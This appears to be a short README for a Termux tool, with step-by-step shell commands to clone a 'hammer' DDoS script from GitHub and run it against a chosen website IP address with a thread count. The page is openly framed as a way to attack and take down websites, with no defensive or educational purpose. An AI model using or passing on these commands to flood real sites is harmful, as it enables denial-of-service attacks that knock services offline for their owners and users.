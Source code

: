 # Rohan
#Website #Tool
DDos Attack to Website for Tremux || Website Hack || Website Remove ddos Attack
                [Type the Command 👇 ]

$  apt update && apt upgrade

$  apt install git

$  git clone https://github.com/cyweb/hammer.git

$  ls

$  cd hammer

$  ls

$  chmod +x hammer.py

[%] Open Tremux NEW SESSION Type Command 👇 

$  ls

$  cd hammer

$  ls

$   python3 hammer.py -s (enter website IP Address) -t 15

